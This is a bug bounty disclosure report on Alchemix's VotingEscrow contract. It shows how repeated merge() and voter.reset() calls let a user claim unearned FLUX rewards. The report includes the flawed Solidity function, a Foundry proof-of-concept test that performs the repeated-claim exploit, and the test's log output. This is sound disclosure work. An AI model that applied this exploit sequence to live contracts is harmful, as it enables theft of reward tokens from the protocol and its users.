 
# Infinite minting of FLUX through Merge

Submitted on Mon May 20 2024 16:10:34 GMT-0400 (Atlantic Standard Time) by @Django for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31512

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
Users are able to claim more FLUX rewards than they should simply by merging their tokens. Since the `merge()` operation increases the `_to` token's balance, the `_from` token can simply increment its unclaimed FLUX through `voter.reset()` and then merge its balance into `_to`. Then `_to` can claim with the increased balance. This operation can continue for as many iterations as desired.

## Vulnerability Details
Users increase their unclaimed FLUX balance through `voter.reset()` for their tokens after an epoch has passed. They can then claim their FLUX by calling `FLUX.claimFlux()`.

However, since the `claimableFlux()` FLUX balance of each token is taken at the current `block.timestamp`, a user can simply call `votingEscrow.merge()` to merge their already claimed tokens with an unclaimed token, increasing its balance and effectively doubling their rewards to claim.

```
    function claimableFlux(uint256 _tokenId) public view returns (uint256) {
        // If the lock is expired, no flux is claimable at the current epoch
        if (block.timestamp > locked[_tokenId].end) {
            return 0;
        }


        // Amount of flux claimable is <fluxPerVeALCX> percent of the balance
        return (_balanceOfTokenAt(_tokenId, block.timestamp) * fluxPerVeALCX) / BPS;
    }
```

## Impact Details
- Unauthorized claiming of FLUX rewards

## Output from POC
```
[PASS] testAccrueFluxByMergeAndReset() (gas: 4170557)
Logs:
  **Each token should receive 984462360468700917 tokens per epoch
  Claim token1. It claims 1x rewards (normal)
  FLUX Balance 984462360468700917
  --------------------
  Merge the already claimed token1 to the unclaimed token2. Token2's balance increases.
  Claim token2. It claims 2x rewards.
  FLUX Balance 2953387081421625754
  --------------------
  Merge the already claimed token2 to the unclaimed token3. Token3's balance increases.
  Claim token3. It claims 4x rewards.
  FLUX Balance 5906774162843251509
  --------------------
  Merge the already claimed token3 to the unclaimed token4. Token4's balance increases.
  Claim token4. It claims 8x rewards.
  FLUX Balance 9844623604749101184
  --------------------
  After 3 merges, user has claimed 250% more rewards (10x/4x)
```

        
## Proof of concept
## Proof of Concept

```
function testAccrueFluxByMergeAndReset() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId4 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.startPrank(admin);

        uint256 claimedBalance = flux.balanceOf(admin);
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId1);

        assertEq(claimedBalance, 0);
        assertEq(unclaimedBalance, 0);

        // Reset token1 to claim the usual amount of flux
        voter.reset(tokenId1);
        unclaimedBalance = flux.getUnclaimedFlux(tokenId1);
        console.log("**Each token should receive %i tokens per epoch", unclaimedBalance);
        console.log("Claim token1. It claims 1x rewards (normal)");
        flux.claimFlux(tokenId1, flux.getUnclaimedFlux(tokenId1));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token1 to the unclaimed token2. Token2's balance increases.");
        veALCX.merge(tokenId1, tokenId2);

        console.log("Claim token2. It claims 2x rewards.");
        voter.reset(tokenId2);
        flux.claimFlux(tokenId2, flux.getUnclaimedFlux(tokenId2));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token2 to the unclaimed token3. Token3's balance increases.");
        veALCX.merge(tokenId2, tokenId3);

        console.log("Claim token3. It claims 4x rewards.");
        voter.reset(tokenId3);
        flux.claimFlux(tokenId3, flux.getUnclaimedFlux(tokenId3));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("Merge the already claimed token3 to the unclaimed token4. Token4's balance increases.");
        veALCX.merge(tokenId3, tokenId4);

        console.log("Claim token4. It claims 8x rewards.");
        voter.reset(tokenId4);
        flux.claimFlux(tokenId4, flux.getUnclaimedFlux(tokenId4));
        console.log("FLUX Balance %s", flux.balanceOf(admin));
        console.log("--------------------");

        console.log("After 3 merges, user has claimed 250% more rewards (10x/4x)");

        hevm.stopPrank();
    }
```